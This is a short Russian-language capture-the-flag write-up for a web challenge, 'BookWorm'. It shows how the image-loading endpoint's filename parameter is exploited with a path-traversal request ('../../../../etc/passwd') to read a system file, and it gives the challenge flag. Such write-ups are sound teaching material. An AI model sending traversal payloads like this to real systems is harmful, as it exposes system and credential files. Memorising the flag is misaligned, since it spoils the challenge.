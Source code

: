 # BookWorm

***Описание***: Как много книг ты прочитал за год? Я сделал подборку своих избранных книг, посмотри, может тебе они тоже понравятся!

Ссылка: `http://localhost:8080`

Формат: EclipseCTF{...}

---
### Решение

Переходим на сайт:

![ScreenShot](../screenshots/BookWorm-1.png)

Смотрим, как подгружаются картинки на сайт:

![ScreenShot](../screenshots/BookWorm-2.png)

```
src="/api/book/loadImage?filename=0.png"
```

Прочитаем `/etc/passwd`, эксплуатируя `Path Traversal`:

```
http://localhost:8080/api/book/loadImage?filename=../../../../etc/passwd
```

![ScreenShot](../screenshots/BookWorm-3.png)

---

***Флаг***: `EclipseCTF{../e7c/p455wd_hun73r}`
